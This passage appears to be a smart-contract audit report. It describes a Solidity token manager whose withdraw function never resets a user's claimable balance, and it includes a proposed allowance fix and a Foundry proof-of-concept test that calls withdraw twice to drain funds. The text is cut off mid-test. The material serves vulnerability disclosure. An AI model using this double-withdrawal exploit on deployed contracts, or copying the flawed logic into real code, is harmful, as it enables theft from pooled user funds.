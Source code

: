 `````Solidity
           _tokenAddress ][_tokenBalanceType];
...code 

            _safe_transfer_from(
                _tokenAddress,
                capitalPoolAddr,
                _msgSender(),
                claimAbleAmount
            );
        }

        emit Withdraw(
            _msgSender(),
            _tokenAddress,
            _tokenBalanceType,
            claimAbleAmount
        );


```

But as we can see the claimableBalance is absolutely no set to zero.

Before running the POC you must fix the bug with the allowance that I mentionned in a previous submittion 

add this if statement in the withdraw function before the \_safe\_transfer\_from to ensure that the token Manager have enougth allowance : 

```Solidity
else {
            /**
             * @dev token is ERC20 token
             * @dev transfer from capital pool to msg sender
             */
            if (IERC20(_tokenAddress).allowance(capitalPoolAddr, address(this)) < claimAbleAmount) {
                ICapitalPool(capitalPoolAddr).approve(_tokenAddress);
            }
            _safe_transfer_from(_tokenAddress, capitalPoolAddr, _msgSender(), claimAbleAmount);
        }
```

you can copy paste this test in the PreMArkets.t.sol file:

```Solidity
 function test_withdrawPOC3() public {
        mockUSDCToken.mint(address(capitalPool), 3);
        vm.startPrank(user);
        preMarktes.createOffer(
            CreateOfferParams(marketPlace, address(mockUSDCToken), 1, 1, 10000, 0, OfferType(0), OfferSettleType(0))
        );
        address offer1Addr = GenerateAddress.generateOfferAddress(0);
        address stock1Addr = GenerateAddress.generateStockAddress(0);
        // close the offer to accrued the claimable balance of the user
        preMarktes.closeOffer(stock1Addr, offer1Addr);

        uint256 balanceOfCapitalPoolBefore = mockUSDCToken.balanceOf(address(capitalPool));
        uint256 balanceOfUserBefore = mockUSDCToken.balanceOf(user);
        uint256 claimableBalanceBefore =
            tokenManager.userTokenBalanceMap(user, address(mockUSDCToken), TokenBalanceType(4));
        tokenManager.withdraw(address(mockUSDCToken), TokenBalanceType(4));
        tokenManager.withdraw(address(mockUSDCToken), TokenBalanceType(4));
`````